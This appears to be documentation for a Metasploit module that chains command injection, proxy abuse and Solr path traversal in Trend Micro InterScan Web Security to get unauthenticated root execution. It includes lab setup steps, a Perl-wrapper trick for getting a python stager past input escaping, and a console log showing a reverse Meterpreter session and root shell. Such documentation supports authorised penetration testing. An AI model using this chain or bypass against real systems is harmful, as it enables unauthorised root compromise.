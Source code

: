 ## Vulnerable Application

This module exploits multiple vulnerabilities together in order to achieve remote code execution in Trend Micro Web Security.
Unauthenticated users can execute a terminal command under the context of the root user.

The specific flaw exists within the `LogSettingHandler` class of administrator interface software. When parsing the `mount_device`
parameter, the process does not properly validate a user-supplied string before using it to execute a system call. An attacker can leverage
this vulnerability to execute code in the context of root. But authentication is required to exploit this vulnerability.

Another specific flaw exists within the proxy service, which listens on port 8080 by default. Unauthenticated users can exploit this
vulnerability to communicate with internal services in the product.

Last but not least a flaw exists within the Apache Solr application, which is installed within the product. When parsing the file
parameter, the process does not properly validate a user-supplied path prior to using it in file operations. An attacker can leverage this
vulnerability to disclose information in the context of IWSS user.

Due to combination of these vulnerabilities, unauthenticated users can execute a terminal command under the context of the root user.

Version perior to 6.5 SP2 Patch 4 (Build 1901) are affected.

**Vulnerable Application Installation Steps**

Trend Micro Web Security is distrubed as an ISO image by Trend Micro.

Following steps are valid on the CentOS 6 x64 bit operating system.

1. Open following URL [http://downloadcenter.trendmicro.com/](http://downloadcenter.trendmicro.com/)
2. Find "InterScan Web Security Virtual Appliance" and click.
3. Go to **Service Pack** section.
4. At the time of writing this documentation, you must see **IWSVA-6.5-SP2-1548-x86_64.iso** next to Download button.
5. Click to the download button and complete installation of ISO.

**System settings used for installation:**
- Virtualbox or VMware can be used.
- 8 GB of memory at least.
- 60 GB of disk size at least.

**Why Perl wrapper for python stager?**

Within the exploit function, you can see a custom Perl wrapper usage for python stager payload. The parameter that contains our payload is
going through escaping (double quotes, backslash, etc) and blacklist checks on the server-side. Most of the cmd payload will not work under
these circumstances.

I love meterpreter <3 Using python dropper, which gives a meterpreter session, with command injection vulnerability requires using a double
quote or Single-Backslash-Single-Single combination.

```
python -c '#{payload.encoded'
"python -c '#{payload.encoded.gsub("'", "'\\\\''")}'"
```

In that specific case, none of these approaches works. The idea is wrapping the python dropper within the perl command that does not
contain any special characters.

## Verification Steps

1. Start `msfconsole`
2. Run `use exploit/linux/http/trendmicro_websecurity_exec`
3. Set `RHOST`
4. Set `LHOST`
5. Run `check`
6. **Verify** that you are seeing `The target is vulnerable.`
7. Run `exploit`
8. **Verify** that you are seeing `Latest session id is successfully extracted : 29A589E94A0BC0954F7F9B1FE7EC8858` in console.

## Options

## Scenarios

This module has been tested against Trend Micro Web Security 6.5-SP2_Build_Linux_1852.

```
msf5 > use exploit/linux/http/trendmicro_websecurity_exec
msf5 exploit(linux/http/trendmicro_websecurity_exec) > set RHOSTS 192.168.74.31
RHOSTS => 192.168.74.31
msf5 exploit(linux/http/trendmicro_websecurity_exec) > set LHOST 172.27.199.6
LHOST => 172.27.199.6
msf5 exploit(linux/http/trendmicro_websecurity_exec) > check
[+] 192.168.74.31:8443 - The target is vulnerable.
msf5 exploit(linux/http/trendmicro_websecurity_exec) > exploit

[*] Started reverse TCP handler on 172.27.199.6:4444
[*] Exploiting command injection vulnerability
[+] Latest session id is successfully extracted : 29A589E94A0BC0954F7F9B1FE7EC8858
[*] Sending stage (53755 bytes) to 172.27.192.1
[*] Meterpreter session 1 opened (172.27.199.6:4444 -> 172.27.192.1:55842) at 2020-06-14 20:24:53 +0300

meterpreter > sysinfo
Computer        : trendmicro
OS              : Linux 2.6.32-504.OpenVA.3.5.1375.el6.x86_64 #1 SMP Wed Dec 28 16:16:16 CST 2016
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > shell
Process 6306 created.
Channel 1 created.
sh: no job control in this shell
sh-4.1# id
uid=0(root) gid=0(root) groups=0(root),499(iscan)
sh-4.1#
```
